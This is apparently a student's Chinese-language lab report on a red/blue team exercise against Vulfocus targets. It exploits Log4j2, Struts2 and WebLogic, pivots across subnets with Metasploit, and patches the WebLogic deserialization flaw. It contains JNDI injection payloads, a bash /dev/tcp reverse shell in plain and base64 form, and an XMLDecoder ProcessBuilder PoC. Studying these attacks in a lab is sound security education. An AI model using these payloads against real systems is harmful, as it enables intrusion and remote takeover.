




# 2023暑期网络安全攻防实践记录报告

## 👨‍💻**负责工作**

- 制定分工计划
- 作为红队完成漏洞存在性验证和漏洞利用

- 作为蓝队对漏洞攻击行为进行持续检测和威胁识别，并进行修复

## 🚀实践过程

### 环境搭建

> 万事开头难，只要肯攀登

**1.配置虚拟机，调节网络环境**

本次实践中，虚拟机配置两张网卡：`Host-only`网卡和`网络地址转换(NAT)`


当然要完成红蓝攻防对抗，需要准备攻击者主机和靶机，直接使用多重加载镜像，能够有效简化整个实验过程：


同时为了使得挂载的两个虚拟机的ip地址不同，可以自行手动更新地址：


**2.从仓库中拉取到本机的虚拟机系统当中**：

在模拟红蓝网络攻防实践的整个过程之前，需要确保本地环境部署完毕，当然在黄药师录制好的[视频指导](https://www.bilibili.com/video/BV1p3411x7da/?p=22&spm_id_from=pageDriver&vd_source=61a1cf010feeebc60643481f16fc695e)下可以很快的部署完能够省略很多比较繁琐的操作：

```shell
git clone https://github.com/c4pr1c3/ctf-games.git
```

通过使用Docker Compose来构造docker环境，其中git下来的仓库老师已经配置好对应的.yml文件，直接执行即可构建对应的环境：

```shell
sudo apt update && sudo apt install -y docker.io docker-compose jq
```

构建好后，直接运行老师给出的bash脚本即可在本地的80端口开启容器：


此处在运行`start.sh`脚本时，需要在root用户权限下执行，当然，也可以将当前用户添加到 docker 用户组，免 sudo 执行 docker 相关指令：

```shell
sudo usermod -a -G docker ${USER}
```

当然以上步骤都需要确保**网络能够正常进行访问**，如果访问或者拉取镜像时出现网络限制或者超时，可以更换docker镜像源和kali镜像源：

- **更换kali国内镜像源**：

  - 使用下列命令可以直接编辑`sources.list`

    ```css
    sudo vim /etc/apt/sources.list
    ```

  - 换源地址如下：

    ```shell
    # 中科大
    deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
    deb-src http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
     
    # 阿里云
    deb http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
    deb-src http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
     
    # 清华大学
    deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
    deb-src https://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
    ```

  - 保存成功后命令行输入 `sudo apt update`更新软件源

    ```shell
    sudo apt update
    ```

- **更换docker源：**

  - 创建或修改 /etc/docker/daemon.json 文件，修改：

    ```shell
    cd /etc/docker
    vim daemon.json
    ```

    加入如下配置：

    ```shell
    {
        "registry-mirrors" : [
        "https://registry.docker-cn.com",
        "http://hub-mirror.c.163.com",
        "https://docker.mirrors.ustc.edu.cn",
        "https://cr.console.aliyun.com",
        "https://mirror.ccs.tencentyun.com"
      ]
    }
    ```

    重启docker服务使配置生效：

    ```shell
    systemctl daemon-reload
    systemctl restart docker.service
    ```

    查看配置是否成功：

    ```shell
    docker info
    ```

    

**3.测试部署本地的Vulfocus**

进入部署好的地址，能够看到对应的镜像列表等信息：


在镜像列表同步上游镜像，能够得到Vulfocus已经提供的镜像：


尝试下载镜像，并在容器中启动环境进行一定测试：


**4.如何去自定义一个场景拓扑镜像**、

我们在搭建整个网络攻防的模拟环境的过程中，需要去构建跨网段渗透的场景镜像，而由于官网（[在线平台](https://vulfocus.cn/#/scene/list)）已经不再提供下载和资源镜像分享，因此需要自己去设计构建相应的拓扑场景和镜像：


我们直接手动设计场景，首先，要达成跨网段和识别，进入办公区和核心区的任务，简单模拟其环境供使用这一漏洞攻防环境，我们需要准备两张网卡实现二层网络的搭建：


攻击者主机通过暴露在“外网”的靶机漏洞从而渗透攻击DMZ区域，并将其作为跳板访问，依次利用漏洞访问到核心网内的靶机：


在容器中启动场景，查看相应的镜像信息：


完成上述步骤即构建了一个双层网段的渗透测试环境的模拟。

### 漏洞验证和利用

> 雄关漫道真如铁，而今迈步从头越。

#### 🚩Log4j2-CVE-2021-44228漏洞

##### 检测漏洞存在性

在Vulfocus启动漏洞环境，镜像管理中搜索`Log4j2远程命令执行（CVE-2021-44228）`镜像并下载，完成后启动：


浏览器访问该地址`192.168.56.109:11636`

实验环境访问端口为11636，故查看到容器名称为`optimistic_blackwell`

进入容器

```bash
docker exec -it optimistic_blackwell bash
```


查看到容器目录下有`demo.jar`文件，拉取到容器的宿主机

```bash
# docker cp <容器名称或ID>:<容器内文件路径> <宿主机目标路径>
sudo docker cp optimistic_blackwell:/demo/demo.jar ./
```


- 反编译


使用[jadx](https://github.com/skylot/jadx/releases/tag/v1.4.7)反编译demo.jar


源码中有名为`Log4j2RceApplic`的类，验证该漏洞存在

##### 验证漏洞可利用性

- 使用 `PoC` 手动测试

>"PoC" 是 "Proof of Concept" 的缩写，意为"概念验证"。在安全领域，PoC 手动测试通常用于验证潜在的漏洞或安全问题。测试人员会尝试利用已知的漏洞或攻击技术来测试系统的安全性，并验证是否存在潜在的风险。这种测试方法可以帮助发现和修复系统中的安全漏洞，以提高系统的安全性。

访问http://dnslog.cn/获取专属随机子域名`k5o9u7.dnslog.cn`


浏览器访问`192.168.56.109:11636/hello?payload=111`地址，使用Burp Suite进行抓包，修改GET请求的payload参数

```
# ldap://dnslog获取的随机域名/随便填
payload=${jndi:ldap://k5o9u7.dnslog.cn/exp}
```

同时对payload字段进行**编码**，否则直接访问会导致400错误


在DNSLog网站成功接收到解析记录


##### 漏洞利用

攻击者主机attacker上下载[`JNDIExploit`工具](https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip)

```bash
https://github.com/bkfish/Apache-Log4j-Learning.git
```

解压

```
unzip JNDIExploit.v1.2.zip
```

攻击者主机attacker启动777端口，等待受害者主机victim反弹回连getshell

```bash
nc -l -p 7777
```


应用工具JNDI-Injection-Exploit搭建服务，格式：

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C “命令” -A “ip（攻击机）”
```

这里的命令是想要靶机运行的命令，-A后放的是发出攻击的电脑的ip，也是存放-C后“命令”的ip地址。

构造反弹shell的payload

```bash
bash -i >& /dev/tcp/192.168.56.105/7777 0>&1
```

将其进行base64加密

```tex
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwNS83Nzc3IDA+JjE=
```

执行JNDI-Injection-Exploit

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwNS83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}" -A 192.168.56.105
```


使用Burp Suite进行抓包，修改`GET 192.168.56.107:28490/hello?payload=111`的payload参数为上图框选的内容并进行编码

```
${jndi:rmi://192.168.56.105:1099/5ekovi}
```



发送后，即可发现攻击者主机的监听窗口反弹shell


查看flag

```bash
ls /temp
```


```bash
flag-{bmh20c56a41-fc29-44f1-9da4-0e3b7bbfb8ff}
```

在管理界面提交该flag通过



### 多网段渗透场景攻防

#### 🚩外层（靶机 1）

从模拟显示的角度来考虑，最外层的主机负责对外提供服务，于是直接得到了提供服务的端口号，也就是vulfocus平台上场景的入口端口

##### CVE-2020-17530 Struts2

我们启动场景后，查看当前运行的镜像：


能够看到在Host-only网卡的本地地址的58841端口开启了`CVE-2020-17530 Struts2`的靶场环境，


切换到攻击者主机并执行：

```shell
# metasploit 基础配置
# 更新 metasploit
sudo apt install -y metasploit-framework
# 初始化 metasploit 本地工作数据库
sudo msfdb init
```


```shell
# 启动 msfconsole
msfconsole
# 确认已连接 pgsql
db_status
# 建立工作区
workspace -a demo
```


通过Metasploit工具的平台搜索struts2搜索CVE-2020-17530，如果是前者的话需要进行一点肉眼筛选，这次的漏洞编号说明是2020年的漏洞，于是可用的exploit只有2020年9月14日的：

```shell
Interact with a module by name or index. For example info 7, use 7 or use exploit/multi/http/struts_code_exec_parameters
msf6 > search cve-2020-17530

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/struts2_multi_eval_ognl  2020-09-14       excellent  Yes    Apache Struts 2 Forced Multi OGNL Evaluation


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/struts2_multi_eval_ognl
```

之后就是选用exploit，然后添加payload，这里选择和课件中一样的`cmd/unix/reverse_bash`，随后是options的设置阶段，设置rhosts为Victim主机的eth0网卡地址，rport则为平台上随机的端口，同时将payload中的lhost设置为Attacker主机的Host-Only网卡，之后就剩下输入run或者exploit执行。

随后只需要等待exploit运行完成，payload中的反弹bash会自动开启，接下来就是`ls /tmp`查看flag了：


#### 🚩中层（靶机 2-4）

##### weblogic-cve-2019-2725

当拿到外层主机的shell之后是需要对外层主机所在内部网络进行扫描，尝试找出进一步向深层进发的跳板主机，需要做的5个步骤大概是如下内容：

1. 对已攻入主机所在内网网段中其他主机进行存活验证

2. 对存活的其他主机进行端口扫描

3. 对已开放端口号进行信息收集，得到开放的服务的信息

4. 从开放的服务入手获取版本寻找可用的漏洞

5. 确定漏洞，装载payload，exploit

首先是将已经获得的1号会话即外层主机shell升级为meterpreter，说是升级并且执行的命令也是`sessions -u 1`，其实是通过上传名为`post/multi/manage/shell_to_meterpreter`的payload的方式开启更多功能的会话：

```shell
Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60604 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.171.84.4  192.168.56.107:4433 -> 192.168.56.1:60598 (172.29.108.146)

```

主要的还是需要用meterpreter实现让外层的主机作为中介路由，将下一步内网扫描的包转发过去，此时会用到`post/multi/manage/autoroute`模块，只需要将会话ID填入即可，之后运行便会自动添加路由信息到Metasploit的路由表中：

```shell
Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, autoadd, print, delete, default)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION  2                yes       The session to run this module on
   SUBNET                    no        Subnet (IPv4, for example, 10.10.10.0)


View the full module info with the info, or info -d command.

msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 192.171.84.4
[*] Searching for subnets to autoroute.
[*] Did not find any new subnets to add.
[*] Post module execution completed
msf6 post(multi/manage/autoroute) > route

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.171.84.0       255.255.255.0      Session 2

[*] There are currently no IPv6 routes defined.
msf6 post(multi/manage/autoroute) >
```

之后的顺序应该为先进行存活验证后进行端口扫描，如此可以通过存活性筛除掉不必要的IP地址，可以让端口扫描更快速更高效，这里选择使用模块`post/multi/gather/ping_sweep`，填入必要的options之后就可以进行扫描了：

```shell
Module options (post/multi/gather/ping_sweep):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       IP Range to perform ping sweep against.
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(multi/gather/ping_sweep) > set rhosts 192.171.84.2-254
rhosts => 192.171.84.2-254
msf6 post(multi/gather/ping_sweep) > set session 2
session => 2
msf6 post(multi/gather/ping_sweep) > run

[*] Performing ping sweep for IP range 192.171.84.2-254
[+]     192.171.84.5 host found
[+]     192.171.84.3 host found
[+]     192.171.84.4 host found
[+]     192.171.84.2 host found
[*] Post module execution completed
```

#### 🚩内层（靶机 5）

##### nginx-php-flag

内层一样需要找到跳板主机访问到内层网络，通过升级普通会话到meterpreter，随后搭建autoroute添加路由表，随后进行存活性扫描，再者是端口扫描。

首先是升级会话和找到连接内层网络的跳板主机，这里因为开太多容器和虚拟机的问题回连速度略慢导致产生了报错，即前一会话仍在等待4433端口的回应时下一会话的payload已经发送过去导致本地端口冲突了，不过不影响，使用`jobs -l`确认后台执行完成后3个会话都升级到了meterpreter：

```shell
  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60604 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.171.84.4  192.168.56.107:4433 -> 192.168.56.1:60598 (172.29.108.146)
  3         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60640 (192.171.84.2)
  4         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60630 (192.171.84.3)
  5         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60574 (192.171.84.5)
  6         meterpreter x86/linux  root @ 192.171.84.2  192.168.56.107:4433 -> 192.168.56.1:60622 (192.171.84.2)

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -i 6
[*] Starting interaction with 6...
```

得到输出结果，并且提示我们需要通过 `index.php?cmd=ls /tmp` 的方式执行，最后成功得到 `flag5`：

```shell
View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/portscan/tcp) > set ports 80
ports => 80
msf6 auxiliary(scanner/portscan/tcp) > set rhosts 192.172.85.2-3
rhosts => 192.172.85.2-3
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 192.172.85.2:         - 192.172.85.2:80 - TCP OPEN
[*] 192.172.85.2-3:       - Scanned 2 of 2 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/portscan/tcp) >
```


### 漏洞威胁监测和缓解修复

> 欲穷千里目，更上一层楼

#### weblogic-cve-2019-2725漏洞修复

通过我们在场景中的复现能够清楚看到，Weblogic-cve-2019-2725的漏洞源于在反序列化处理输入信息的过程中存在缺陷，未经授权的攻击者可以发送精心构造的恶意 HTTP 请求，利用该漏洞获取服务器权限，实现远程代码执行。

我们从Oracle官方漏洞复现源拿到漏洞镜像，根据Oracle的漏洞报告，此漏洞存在于异步通讯服务，通过访问路径`/_async/AsyncResponseService`，判断不安全组件是否开启。`wls9_async_response.war`包中的类由于使用注解方法调用了Weblogic原生处理Web服务的类，因此会受该漏洞影响：


我们继续分析漏洞是如何发送http请求从而获得权限的，在`ProcessBuilder`类中打下断点，可以看到相应的调用栈过程：


我们逐步分析，首先程序是继承自`HttpServlet`的`BaseWSServlet`类，其中的service方法主要用于处理HTTP请求及其响应，通过HTTP协议发送的请求包封装在`HttpServletRequest`类的实例化对象`var1`中


调用`BaseWSServlet`中定义的内部类`AuthorizedInvoke`的`run()`方法完成传入HTTP对象的权限验证过程：


若校验成功，则进入到`SoapProcessor`类的process方法中，通过调用`HttpServletRequest`类实例化对象`var1`的`getMethod()`方法获取HTTP请求类型，若为POST方法，则继续处理请求：


HTTP请求发送至SoapProcessor类的handlePost方法：

```java
private void handlePost(BaseWSServlet var1, HttpServletRequest var2, HttpServletResponse var3) throws IOException {
    assert var1.getPort() != null;

    WsPort var4 = var1.getPort();
    String var5 = var4.getWsdlPort().getBinding().getBindingType();
    HttpServerTransport var6 = new HttpServerTransport(var2, var3);
    WsSkel var7 = (WsSkel)var4.getEndpoint();

    try {
        Connection var8 = ConnectionFactory.instance().createServerConnection(var6, var5);
        var7.invoke(var8, var4);
    } catch (ConnectionException var9) {
        this.sendError(var3, var9, "Failed to create connection");
    } catch (Throwable var10) {
        this.sendError(var3, var10, "Unknown error");
    }
}
```

**SOAP是一种通信协议**，用于应用程序之间的通信。它是一种轻量的、简单的、基于XML的协议，可以独立于平台和语言进行通信。SOAP定义了数据交互中如何传递消息的规则，比如在HTTP中规定了POST请求的传参方式，在数据类型不同的情况下可以使用不同的参数方式。


在整个进程调用中，`BaseWSServlet`类实例化对象`var1`封装了基于HTTP协议的SOAP消息：


其中`WorkAreaServerHandler`类中的`handleRequest()`方法用于处理访问请求，通过`WlMessageContext`对象var2获取传入的`MessageContext`，调用`var2`对象的`getHeaders()`方法获取传入SOAP消息的Header元素，并最终将该元素传递到`WorkAreaHeader`对象`var4`中


通过上述漏洞调用过程分析，要想有效修复漏洞，需要开发补丁,最直接的方法是在路径weblogic/wsee/workarea/WorkContextXmlInputAdapter.java中添加了validate方法，即在调用startElement方法解析XML的过程中，如果解析到Element字段值为Object就抛出异常：

```java
private void validate(InputStream is) {
     WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
      try {
         SAXParser parser = factory.newSAXParser();
         parser.parse(is, new DefaultHandler() {
            public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
               if(qName.equalsIgnoreCase("object")) {
                  throw new IllegalStateException("Invalid context type: object");
               }
            }
         });
      } catch (ParserConfigurationException var5) {
         throw new IllegalStateException("Parser Exception", var5);
      } catch (SAXException var6) {
         throw new IllegalStateException("Parser Exception", var6);
      } catch (IOException var7) {
         throw new IllegalStateException("Parser Exception", var7);
      }
   }
```

然而，采用黑名单的防护措施很快就被POC轻松绕过，因为其中不包含任何Object元素。尽管经过XMLDecoder解析后，这种方法仍然会导致远程代码执行，例如给出一段poc：

```java
<java version="1.4.0" class="java.beans.XMLDecoder">
    <new class="java.lang.ProcessBuilder">
        <string>calc</string><method name="start" />
    </new>
</java>
```

因为其中不包含任何Object元素，但经`XMLDecoder`解析后依旧造成了远程代码执行

因此，我们需要将更多的关键字漏洞加入到黑名单中，从而做到当程序解析到关键字属性的字样时，即设置为异常，object、new、method关键字继续加入到黑名单中，一旦解析XML元素过程中匹配到上述任意一个关键字就立即抛出运行时异常。但是针对void和array这两个元素是有选择性的抛异常，其中当解析到void元素后，还会进一步解析该元素中的属性名，若没有匹配上index关键字才会抛出异常。而针对array元素而言，在解析到该元素属性名匹配class关键字的前提下，还会解析该属性值，若没有匹配上byte关键字，才会抛出运行时异常：

```java
public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
            if(qName.equalsIgnoreCase("object")) {
               throw new IllegalStateException("Invalid element qName:object");
            } else if(qName.equalsIgnoreCase("new")) {
              throw new IllegalStateException("Invalid element qName:new");
            } else if(qName.equalsIgnoreCase("method")) {
               throw new IllegalStateException("Invalid element qName:method");
            } else {
               if(qName.equalsIgnoreCase("void")) {
                  for(int attClass = 0; attClass < attributes.getLength(); ++attClass) {
                     if(!"index".equalsIgnoreCase(attributes.getQName(attClass))) {
                        throw new IllegalStateException("Invalid attribute for element void:" + attributes.getQName(attClass));
                     }
                  }
               }
               if(qName.equalsIgnoreCase("array")) {
       String var9 = attributes.getValue("class");
       if(var9 != null && !var9.equalsIgnoreCase("byte")) {
      throw new IllegalStateException("The value of class attribute is not valid for array element.");
     }
```

当然，如果攻击者使用的poc中再次的利用了void、array和Class或者其他元素依然可能导致绕过补丁，因此这种修复漏洞的方式只能一定程度上的缓解，而不是一种完全可靠的防护措施。

**查阅官方文档，官方对此漏洞发布了紧急的修复方式：**

官方已于4月26日公布紧急补丁包，下载地址如下：https://www.oracle.com/technetwork/security-advisory/alert-cve-2019-2725-5466295.html?from=timeline

主要通过两种方式：

- **升级本地JDK版本**

  因为Weblogic所采用的是其安装文件中默认1.6版本的JDK文件，属于存在反序列化漏洞的JDK版本，因此升级到JDK7u21以上版本可以避免由于Java原生类反序列化漏洞造成的远程代码执行。

- **配置URL访问控制策略**

  部署于公网的WebLogic服务器，可通过ACL禁止对/_async/*及/wls-wsat/*路径的访问。

- **删除不安全文件**

  - 删除wls9_async_response.war与wls-wsat.war文件及相关文件夹，并重启Weblogic服务。具体文件路径如下：

    10.3.*版本：

    ```bash
    \Middleware\wlserver_10.3\server\lib\%DOMAIN_HOME%\servers\AdminServer\tmp\_WL_internal\%DOMAIN_HOME%\servers\AdminServer\tmp\.internal\
    ```

#### 自动化攻击脚本编写（struts2-cve-2020-17530）

根据分析，Apache Struts 2是一个用于开发Java EE网络应用程序的开源网页应用程序架构。它利用并延伸了Java Servlet API，鼓励开发者采用MVC架构。

如果开发人员使用了 `%{…}` 语法，那么攻击者可以通过构造恶意的 `OGNL` 表达式，引发 `OGNL` 表达式二次解析，最终造成远程代码执行的影响。

因此这是一个远程代码执行漏洞，所以可以尝试构造对应的`OGNL`的表达式脚本来尝试攻击。

在场景中，针对暴露的第二个靶机端口我们尝试进行攻击：


根据前文中我们已经构造的payload：

```shell
http://192.168.1.110:8080/?id=%25%7b+%27test%27+%2b+(2000+%2b+20).toString()%7d
```

尝试在代码中构造这一表达式：


运行后，通过burp抓包能够得到：


Getshell脚本的反弹命令需要进行进行编码转换，所以反弹shell可以使用https://www.ddosi.org/shell/ 在线工具平台转码：


对开放端口运行脚本，成功getshell：


### 智能化漏洞扫描和攻击工具

#### Fscan使用初探

> 一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。
> 支持主机存活探测、端口扫描、常见服务的爆破、ms17010、redis批量写公钥、计划任务反弹shell、读取win网卡信息、web指纹识别、web漏洞扫描、netbios探测、域控识别等功能。

[Github地址](https://github.com/shadow1ng/fscan)

我同时尝试使用集成化的的漏洞工具去模拟渗透攻击，事实上，在实际的渗透中，更多的是使用这种多个功能集成式的工具来实现渗透，这样既能保证有着良好效果，同时也能提高效率。

Fscan使用Go语言编写，git clone下来后，需要编译成可执行程序后使用：

```go
go build -ldflags="-s -w " -trimpath main.go
```

工具中提供了多个功能模块：

1.信息搜集:

- 存活探测(icmp)
- 端口扫描

2.爆破功能:

- 各类服务爆破(ssh、smb、rdp等)
- 数据库密码爆破(mysql、mssql、redis、psql、oracle等)

3.系统信息、漏洞扫描:

- netbios探测、域控识别
- 获取目标网卡信息
- 高危漏洞扫描(ms17010等)

4.Web探测功能:

- webtitle探测
- web指纹识别(常见cms、oa框架等)
- web漏洞扫描(weblogic、st2等,支持xray的poc)

5.漏洞利用:

- redis写公钥或写计划任务
- ssh命令执行
- ms17017利用(植入shellcode),如添加用户等

6.其他功能:

- 文件保存

##### 对靶机扫描：

我们直接调用相关参数，即可完整获取到靶机所有信息：

```shell
main.exe -h 192.168.56.1/24
```



同时，工具可以将该网卡中所有端口信息保存下来：



## 📚总结

通过本次攻防实践实验，让我们小组成员收获颇丰，经过这一段时间的学习和实践，我们对于网络安全中相关的攻击方式、攻击手段和流程都进行了模拟和实践，同时也对防御方如何去应对攻击者多变复杂的攻击手段，如何去检测恶意行为和漏洞利用进行了实践模拟。

以本次**跨网段渗透**的模拟场景的攻击为例，可以清楚看到，在真实网络环境中，攻击者在进行渗透攻击前会进行充分的“试探“和摸索：

1. **信息收集阶段**：攻击者在开始渗透之前首先进行信息收集，包括目标网络的IP地址范围、域名信息、子域名枚举等。常用的信息收集工具有`Nmap`、`theHarvester`等。
2. **漏洞扫描与分析**：在获得目标网络的信息后，攻击者会使用漏洞扫描工具来发现目标网络中存在的漏洞，并进行漏洞分析，以确定哪些漏洞是可以被利用的。
3. **渗透与入侵**：攻击者通过已发现的漏洞或其他手段，尝试进入目标网络。渗透工具如`Metasploit`、`SQLMap`等被广泛用于此阶段。那对于一些更加复杂的环境，攻击者甚至可能通过社会工程学手段获取登录凭证，或利用远程执行漏洞获得对目标系统的控制权。
4. **提权和权限维持**：成功进入目标网络后，攻击者会寻求提权，以获得更高的权限。常用的工具有`PowerSploit`、`mimikatz`等。此外，攻击者还会尽可能地维持对目标系统的控制，以确保持久性地侵入入侵靶机，以获得更多的信息。

面对攻击者层出不穷的”机关巧计“，蓝方同样有着许多方式能够做出有效的应对：

1. **网络防护设施**：蓝队需要建立完善的网络安全设施，包括防火墙、入侵检测系统（IDS）、入侵防御系统（IPS）等。这些设施可以及时监测并阻止可疑的网络活动和攻击行为。
2. **漏洞管理与修复**：定期进行漏洞扫描，并及时修复已发现的漏洞，是防御措施中至关重要的一环。蓝方的防御过程是一个持久不间断的，因此，需要对于系统、网络进行及时的扫描和维护才能实时有效地防御。
3. **行为分析与异常检测**：通过行为分析和异常检测，可以及时察觉异常的活动，如大量信息注入、不寻常的网络流量、大量的端口扫描等，从而能够快速定位到攻击者的攻击目标和方位从而有效的进行检测和防御。
4. **加密与访问控制**：使用强大的加密技术保护敏感数据的传输，同时合理配置访问控制，限制用户权限，可以有效防止未经授权的访问。

渗透攻防是网络安全领域的重要方向。无论是攻击方还是防守方， 都需要进行大量的学习和尝试，这就像是水火不容的矛和盾，在激烈的碰撞中，不断地产生振聋发聩的声响。

作为一名网安人，练就”火眼金睛“，维护网络安全，是我们的责任更是我们的初心。

## 📒参考资料

- [关于Oracle WebLogic wls9-async组件存在反序列化远程命令执行漏洞的安全公告（第二版）](https://www.cnvd.org.cn/webinfo/show/4999)
- [Oracle Security Alert Advisory - CVE-2019-2725](https://www.oracle.com/security-alerts/alert-cve-2019-2725.html)
- [Long Term Persistence of JavaBeans Components: XML Schema](https://www.oracle.com/technical-resources/articles/java/persistence3.html)
- [2725 : Deserialization vulnerability in Oracle WebLogic Server](https://www.rapid7.com/db/vulnerabilities/oracle-weblogic-cve-2019-2725/)
- [How To Remove Docker Images, Containers, and Volumes | DigitalOcean](https://www.digitalocean.com/community/tutorials/how-to-remove-docker-images-containers-and-volumes)
- [Struts2 S2-061 Remote Code Execution Vulnerability (CVE-2020-17530) Threat Alert - NSFOCUS, Inc., a global network and cyber security leader, protects enterprises and carriers from advanced cyber attacks.](https://nsfocusglobal.com/struts2-s2-061-remote-code-execution-vulnerability-cve-2020-17530-threat-alert/)
- [Oracle WebLogic Affected by Unauthenticated Remote Code Execution Vulnerability (CVE-2019-2725)](https://www.tenable.com/blog/oracle-weblogic-affected-by-unauthenticated-remote-code-execution-vulnerability-cve-2019-2725)
